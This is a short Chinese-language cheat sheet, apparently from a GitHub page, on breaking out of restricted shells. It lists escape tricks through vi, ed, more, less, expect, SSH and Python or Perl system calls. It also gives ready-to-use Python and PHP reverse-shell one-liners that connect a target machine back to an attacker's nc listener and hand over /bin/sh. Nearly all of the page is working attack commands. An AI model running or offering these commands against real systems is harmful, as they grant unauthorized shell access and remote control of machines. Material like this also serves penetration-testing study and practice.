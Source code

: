 ## 编辑器绕过

### vi编辑器

在命令行输入 vi ，在末行输入 :set shell=/bin/bash
接着在执行命令 :shell 

### ed编辑器

>ed
>!'/bin/bash'

## 编程语言绕过

### Python

>python3 -c 'import os; os.system("/bin/bash");'

### Perl

>perl -e 'system("/bin/bash");'

## 反弹shell 绕过

### Python反弹

攻击机

> nc -lvp

靶机

>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### Php反弹

攻击机

>nc -lvp

靶机

>php -r '$sock=fsockopen("LISTENING IP",LISTENING PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

## 利用二进制文件绕过

### more

> ! 'sh'

### less

>less a.txt

末行模式输入 

>!'sh'

## Expect 绕过

>expect
>.....

## SSH绕过

>ssh text@192.168.1.1 -t "bash --noprofile"




